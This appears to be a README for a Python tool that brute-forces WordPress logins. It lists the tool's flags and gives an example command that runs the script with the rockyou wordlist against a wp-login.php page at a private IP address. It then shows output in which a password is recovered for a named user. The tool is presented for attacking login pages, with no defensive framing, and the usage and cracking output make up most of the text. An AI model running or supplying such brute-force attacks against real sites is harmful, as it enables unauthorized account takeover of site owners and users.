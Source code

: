 # python-wp-bruteforce 🔥🚀
python Bruteforce login script for wordpress 👻

* -p = file path to password list file 
* -u = valid username 
* -t = target address 

**target should should look like this http://site.com/wp-login.php**

# example usage : 

$ python3 bf.py -u unclestinky -p /usr/share/wordlist/rockyou.txt -t http://192.168.254.105/weblog/wp-login.php 

      ____      ____ _________  ____________  ____________                         
      \   \    /   / |_____   | |______     \ |_   ______|  
       \   \/\/   /  |     ___|   |    |   _/  |    ___|         
        \        /   |    |       |    |    \  |    |     
         \__/\__/    |____|       |_________/  |____|    

                ***********************
                * By : intrglctcMilk  *  
                *     -- @tmpts       * 
                *********************** 
     
     [+] Attacking [+]
     
    [+] **** PASSWORD FOUND ***** [+] =====> [wedgie57] for user unclestinky
    [-] Time lapsed : 0.792555570602417 seconds  [-] 
    [-] Number of attempts : 15 [-]



